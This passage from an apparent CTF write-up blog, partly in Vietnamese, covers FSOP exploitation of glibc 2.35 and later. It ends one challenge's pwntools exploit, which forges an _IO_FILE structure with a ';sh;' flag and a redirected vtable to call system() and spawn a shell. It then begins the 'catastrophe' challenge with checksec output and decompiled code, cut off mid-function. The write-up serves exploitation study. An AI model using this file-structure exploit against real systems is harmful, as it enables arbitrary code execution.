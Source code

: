 ```python
    return FSOP

_IO_file_jumps = libc.symbols['_IO_file_jumps']
stdout = libc.symbols['_IO_2_1_stdout_']
log.info("stdout: " + hex(stdout))
FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
        lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
        _IO_read_ptr    = 0x0, \
        _IO_write_base  = 0x0, \
        _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
        _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
        vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
        )

payload = b'a'*5 + p64(_IO_stdfile_0_lock) + p64(0xffffffffffffffff) + p64(0) + p64(_IO_wide_data_0 + libc.address) + p64(0)*3 + p64(0x00000000ffffffff)
payload += p64(0)*2 + p64(libc.sym._IO_file_jumps)
payload = payload.ljust(0xc5d,b'a') + FSOP

p.send(payload)
p.interactive()
```

ref : [>=libc2.35](https://hareh4ru.github.io/pwn/2023/11/23/FSOP-for-libc-2.35-and-over.html)



## catastrophe

file [here](/assets/files/dice-2022.7z)
### overview

checksec : full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/FSOP/dice-2022$ checksec catastrophe
[*] '/home/ploi/pwn/FSOP/dice-2022/catastrophe'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- ta có 3 option chính ở bài này , ta sẽ cùng nhau đi phân tích nó 

```cs
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 number; // rax

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  while ( 1 )
  {
    print_menu();
    number = get_number();
    if ( number == 4 )
    {
      puts("Bye!");
      exit(0);
    }
    if ( number <= 4 )
    {
```